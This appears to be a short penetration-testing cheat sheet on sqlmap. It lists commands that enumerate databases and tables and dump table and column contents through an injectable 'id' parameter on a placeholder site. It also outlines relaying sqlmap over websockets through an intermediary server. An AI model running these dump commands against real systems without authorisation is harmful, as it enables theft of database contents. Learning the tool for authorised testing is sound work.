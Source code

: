 # 🗃️ Database

## sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

## Extras

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
